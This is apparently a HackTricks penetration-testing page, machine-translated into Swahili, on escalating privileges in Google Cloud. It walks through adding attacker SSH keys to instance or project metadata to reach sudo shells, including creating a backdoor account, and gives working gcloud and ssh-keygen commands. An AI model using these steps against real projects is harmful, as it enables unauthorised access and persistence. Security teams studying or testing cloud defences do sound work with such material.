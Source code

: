 # GCP - Ongeza Metadata ya SSH ya Desturi

{% hint style="success" %}
Jifunze & zoezi Udukuzi wa AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks AWS Timu Nyekundu Mtaalam (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze & zoezi Udukuzi wa GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks GCP Timu Nyekundu Mtaalam (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa michango**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

## Kubadilisha metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Kubadilisha metadata kwenye kifaa kinaweza kusababisha **hatari kubwa ya usalama ikiwa muhusika anapata ruhusa zinazohitajika**.

### **Kuingiza Vipindi vya SSH kwenye Metadata ya Desturi**

Kwenye GCP, **mifumo ya Linux** mara nyingi hutekeleza hati kutoka kwa [Mazingira ya Mgeni wa Linux wa Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Sehemu muhimu ya hii ni [daemon ya akaunti](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), ambayo imeundwa kwa ajili ya **kuangalia mara kwa mara** kwenye kifaa cha metadata kwa **mabadiliko kwenye funguo za umma za SSH zilizoidhinishwa**.

Hivyo, ikiwa muhusika anaweza kubadilisha metadata ya desturi, anaweza kufanya daemon ipate funguo mpya za umma, ambazo zitashughulikiwa na **kuingizwa kwenye mfumo wa ndani**. Funguo itaongezwa kwenye faili ya `~/.ssh/authorized_keys` ya **mtumiaji aliyopo au labda kuunda mtumiaji mpya mwenye `sudo` ruhusa**, kulingana na muundo wa funguo. Na muhusika ataweza kuhatarisha mwenyeji.

### **Ongeza funguo ya SSH kwa mtumiaji aliye na ruhusa**

1. **Angalia Funguo za SSH Zilizopo kwenye Kifaa:**
- Tekeleza amri ya kuelezea kifaa na metadata yake ili kutambua funguo za SSH zilizopo. Sehemu inayofaa kwenye matokeo itakuwa chini ya `metadata`, kwa usahihi funguo ya `ssh-keys`.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- Tilia maanani muundo wa funguo za SSH: jina la mtumiaji linatangulia funguo, likitenganishwa na mabano.

2. **Andaa Faili ya Maandishi kwa Metadata ya Funguo ya SSH:**
- Hifadhi maelezo ya majina ya watumiaji na funguo zao za SSH zinazolingana kwenye faili ya maandishi iliyoitwa `meta.txt`. Hii ni muhimu kwa kuhifadhi funguo zilizopo wakati wa kuongeza mpya.

3. **Tengeneza Funguo Mpya ya SSH kwa Mtumiaji wa Lengo (`alice` kwenye mfano huu):**
- Tumia amri ya `ssh-keygen` kutengeneza funguo mpya ya SSH, hakikisha kuwa uga wa maoni (`-C`) unalingana na jina la mtumiaji wa lengo.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Ongeza funguo ya umma mpya kwenye `meta.txt`, ikifanana na muundo uliopatikana kwenye metadata ya kifaa.

4. **Sasisha Metadata ya Funguo ya SSH ya Kifaa:**
- Tumia amri ya `gcloud compute instances add-metadata` kuomba metadata iliyosasishwa ya funguo ya SSH kwenye kifaa.
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Fikia Kifaa Kwa Kutumia Funguo Mpya ya SSH:**
- Unganisha kifaa kwa SSH ukitumia funguo mpya, ukipata upatikanaji wa kabati katika muktadha wa mtumiaji wa lengo (`alice` kwenye mfano huu).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Unda mtumiaji mpya aliye na ruhusa na ongeza funguo ya SSH**

Ikiwa hakuna mtumiaji wa kuvutia anapatikana, ni rahisi kuunda mpya ambaye atapewa ruhusa za `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Vyeo vya SSH kwa kiwango cha mradi <a href="#sshing-around" id="sshing-around"></a>

Inawezekana kupanua ufikiaji wa SSH kwa Mashine za Virtual (VMs) nyingi katika mazingira ya wingu kwa **kuomba vyeo vya SSH kwa kiwango cha mradi**. Mbinu hii inaruhusu ufikiaji wa SSH kwa kila kifaa ndani ya mradi ambao haujazuia wazi vyeo vya SSH kwa kiwango cha mradi. Hapa kuna mwongozo uliofupishwa:

1. **Tumia Vyeo vya SSH kwa Kiwango cha Mradi:**
- Tumia amri `gcloud compute project-info add-metadata` kuongeza vyeo vya SSH kutoka `meta.txt` kwenye metadata ya mradi. Hatua hii inahakikisha kuwa vyeo vya SSH vinatambuliwa kote kwenye VMs zote katika mradi, isipokuwa kama VM ina chaguo la "Block project-wide SSH keys" limezimwa.
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH kuingia kwenye Vifaa Kwa Kutumia Vyeo vya Kiwango cha Mradi:**
- Kwa kuwa vyeo vya SSH kwa kiwango cha mradi vipo, unaweza kuingia kwa SSH kwenye kifaa chochote ndani ya mradi. Vifaa ambavyo havizuiliwi na vyeo vya SSH kwa kiwango cha mradi vitakubali kyeo cha SSH, kutoa ufikiaji.
- Njia moja ya moja kwa moja ya kuingia kwa SSH kwenye kifaa ni kutumia amri `gcloud compute ssh [INSTANCE]`. Amri hii hutumia jina lako la sasa la mtumiaji na vyeo vya SSH vilivyowekwa kwa kiwango cha mradi kujaribu ufikiaji.

# Marejeo
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
